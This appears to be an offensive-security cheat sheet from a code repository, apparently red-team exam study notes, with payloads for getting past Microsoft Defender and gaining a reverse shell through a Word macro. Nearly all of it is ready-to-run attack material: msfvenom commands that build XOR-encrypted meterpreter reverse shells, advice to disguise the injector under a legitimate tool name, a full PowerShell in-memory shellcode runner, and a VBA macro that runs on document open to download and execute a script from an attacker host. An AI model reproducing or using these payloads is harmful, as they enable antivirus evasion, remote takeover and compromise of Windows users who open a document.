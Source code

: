 # Payloads

* [Bypass MS Defender](#bypass-ms-defender)
* [Reverse Shell MS Word Macro](#reverse-shell-ms-word-macro) / DETECTED

# Bypass MS Defender 

Generate Shellcode for C#

```shell
python3 shellcodeCrypter-msfvenom.py kali 443 xor cs 250 windows/x64/meterpreter/reverse_http
```

Clone the [Shellcode Process Injector](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Injector) project and copy the previous shellcode at buf variable. `Build` -> `Batch Build` -> `Select a Build` -> Click on `Build` .

Rename the final executable. Use offical appilcation names like: procexp64

```shell
.\procexp64.exe
```

# Reverse Shell MS Word Macro

Complete PowerShell script for in-memory shellcode runner

```powershell
function LookupFunc {
	Param ($moduleName, $functionName)
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
	Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$tmp=@()
	$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
	@($moduleName)), $functionName))
}

function getDelegateType {
	Param (
	[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
	[Parameter(Position = 1)] [Type] $delType = [Void]
	)
	$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
	$type.DefineConstructor('RTSpecialName, HideBySig, Public',	[System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
	$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
	return $type.CreateType()
}
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType ([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc, ...
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr])([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

Generate the reverse shell payload

```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.203 LPORT=443 EXITFUNC=thread -f ps1
```

Create a macro that executes a PS in-memory

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.0.203/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub
```



